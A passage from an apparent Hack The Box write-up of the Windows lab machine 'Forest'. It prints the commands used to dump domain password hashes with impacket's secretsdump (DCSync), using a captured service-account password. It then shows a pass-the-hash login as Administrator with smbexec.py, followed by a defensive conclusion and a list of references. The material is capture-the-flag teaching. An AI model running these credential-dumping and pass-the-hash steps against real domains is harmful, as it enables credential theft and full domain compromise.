# -just-dc tells secretsdump to only extract password hashes and Kerberos keys

python3 /opt/impacket/examples/secretsdump.py -just-dc svc-alfresco:s3rvice@htb.local
```



In the full output, there are also Kerberos keys which can be used for creating golden tickets.  The idea of creating and using a golden ticket is beyond the scope of this writeup, but you can read more [here](https://blog.stealthbits.com/complete-domain-compromise-with-golden-tickets/) if you are interested.

With the domain administrator's hash, we should be able to get the root flag and complete the challenge.  You could try to crack the password, and I tried with a few wordlists I had but could not find it.  Fortunately, Windows allows for a technique called pass-the-hash which allows us to provide the hash of the password instead of the password itself.  We will use another impacket tool - ```smbexec.py```

```bash
# Syntax is <domain>/<user>@<IP> -hashes <hashes from above>
smbexec.py htb.local/Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```

If we use ```dir /s root.txt``` on the Administrator's directory, we find that the root flag is on Administrator's desktop (```/s``` tells dir to look recursively).


Now that we know where it is, let's grab it:



# Conclusions
Active Directory is complex, so it is important to be careful how you assign permissions.  Assigning permissions can have ripple effects, so it is important to audit permissions.  Tools like Bloodhound can help discover paths from one entity in the domain to others.  Even though tools like Bloodhound are thought of as hacker tools, they can be used by admins and defenders to understand how attackers will leverage the configuration of a network against it.

# References
[1]: https://docs.microsoft.com/en-us/windows-server/get-started/windows-server-release-info
[2]: https://github.com/SecureAuthCorp/impacket
[3]: https://ldapwiki.com/wiki/Kerberos%20Pre-Authentication
[4]: https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/
[5]: https://docs.microsoft.com/en-us/windows/win32/winrm/portal
[6]: https://github.com/Hackplayers/evil-winrm
[7]: https://github.com/BloodHoundAD/BloodHound
[8]: https://stealingthe.network/quick-guide-to-installing-bloodhound-in-kali-rolling/
[9]: https://github.com/fox-it/BloodHound.py
[10]: https://blog.stealthbits.com/what-is-dcsync-an-introduction/
[11]: https://docs.microsoft.com/en-us/windows/win32/ad/rodc-and-active-directory-schema
[12]: https://github.com/EmpireProject/Empire/blob/master/data/module_source/situational_awareness/network/powerview.ps1
[13]: https://sourceforge.net/projects/winexe/

  * [<sup>1</sup> Windows Server Release Information](https://docs.microsoft.com/en-us/windows-server/get-started/windows-server-release-info)
  * [<sup>2</sup> impacket on Github](https://github.com/SecureAuthCorp/impacket)
  * [<sup>3</sup> Kerberos Pre-Authentication](https://ldapwiki.com/wiki/Kerberos%20Pre-Authentication)
  * [<sup>4</sup> Roasting AS-REPs](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
  * [<sup>5</sup> Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal)
  * [<sup>6</sup> Evil-WinRM on Github](https://github.com/Hackplayers/evil-winrm)
  * [<sup>7</sup> BloodHound on Github](https://github.com/BloodHoundAD/BloodHound)
  * [<sup>8</sup> Quick Guide to Installing Bloodhound in Kali-Rolling](https://stealingthe.network/quick-guide-to-installing-bloodhound-in-kali-rolling/)
  * [<sup>9</sup> Bloodhound.py on Github](https://github.com/fox-it/BloodHound.py)
  * [<sup>10</sup> What is DCSync?](https://blog.stealthbits.com/what-is-dcsync-an-introduction/)
  * [<sup>11</sup> Red-Only DCs and the Active Directory Schema](https://docs.microsoft.com/en-us/windows/win32/ad/rodc-and-active-directory-schema)
  * [<sup>12</sup> PowerView on Github](https://github.com/EmpireProject/Empire/blob/master/data/module_source/situational_awareness/network/powerview.ps1)
  * [<sup>13</sup> winexe on Sourceforge](https://sourceforge.net/projects/winexe/)
